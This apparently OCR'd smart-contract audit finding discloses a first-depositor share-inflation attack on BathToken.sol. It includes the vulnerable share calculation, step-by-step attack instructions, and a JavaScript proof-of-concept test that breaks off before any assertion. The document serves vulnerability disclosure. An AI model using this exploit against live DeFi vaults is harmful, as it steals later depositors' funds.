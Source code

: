 ### Proof of Concept

In `BathToken.sol:569-571`, the allocation of shares is calculated as follows:

```js
(totalSupply == 0) ? shares = assets : shares = (
    assets.mul(totalSupply)
).div(_pool);
```

An early attacker can exploit this by:

*   Attacker calls `openBathTokenSpawnAndSignal()` with `initialLiquidityNew = 1`, creating a new bath token with `totalSupply = 1`
*   Attacker transfers a large amount of underlying tokens to the bath token contract, such as `1000000`
*   Using `deposit()`, a victim deposits an amount less than `1000000`, such as `1000`:
    *   `assets = 1000`
    *   `(assets * totalSupply) / _pool = (1000 * 1) / 1000000 = 0.001`, which would round down to `0`
    *   Thus, the victim receives no shares in return for his deposit

To avoid minting 0 shares, subsequent depositors have to deposit equal to or more than the amount transferred by the attacker. Otherwise, their deposits accrue to the attacker who holds the only share.

```js
it("Victim receives 0 shares", async () => {
    // 1. Attacker deposits 1 testCoin first when creating the liquidity pool
    const initialLiquidityNew = 1;
    const initialLiquidityExistingBathToken = ethers.utils.parseUnits("100", decimals);
    
    // Approve DAI and testCoin for bathHouseInstance
    await testCoin.approve(bathHouseInstance.address, initialLiquidityNew, {
        from: attacker,
    });
    await DAIInstance.approve(
        bathHouseInstance.address,
        initialLiquidityExistingBathToken,
        { from: attacker }
    );

    // Call open creation function, attacker deposits only 1 testCoin
    const desiredPairedAsset = await DAIInstance.address;
    await bathHouseInstance.openBathTokenSpawnAndSignal(
        await testCoin.address,
        initialLiquidityNew,
        desiredPairedAsset,
        initialLiquidityExistingBathToken,
        { from: attacker }
    );
    
    // Retrieve resulting bathToken address
    const newbathTokenAddress = await bathHouseInstance.getBathTokenfromAsset(testCoin.address);
    const _newBathToken = await BathToken.at(newbathTokenAddress);

    // 2. Attacker deposits large amount of testCoin into liquidity pool
    let attackerAmt = ethers.utils.parseUnits("1000000", decimals);
    await testCoin.approve(newbathTokenAddress, attackerAmt, {from: attacker});
    await testCoin.transfer(newbathTokenAddress, attackerAmt, {from: attacker});

    // 3. Victim deposits a smaller amount of testCoin, receives 0 shares
    // In this case, we use (1 million - 1) testCoin
    let victimAmt = ethers.utils.parseUnits("999999", decimals);
    await testCoin.approve(newbathTokenAddress, victimAmt, {from: victim});
    await _newBathToken.deposit(victimAmt, victim, {from: victim});
    
```